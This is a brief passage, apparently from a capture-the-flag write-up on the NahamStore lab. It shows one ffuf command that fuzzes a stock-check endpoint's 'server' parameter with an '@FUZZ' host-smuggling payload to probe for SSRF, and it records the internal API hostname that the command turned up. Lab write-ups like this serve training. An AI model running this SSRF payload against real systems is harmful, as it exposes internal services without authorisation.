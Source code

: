![image.png](image%2020.png)

`ffuf -u 'http://nahamstore.thm/stockcheck' -c -ic -w /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#' -mc 200,301,302,303`

```jsx
internal-api.nahamstore.thm
```

![image.png](image%2021.png)
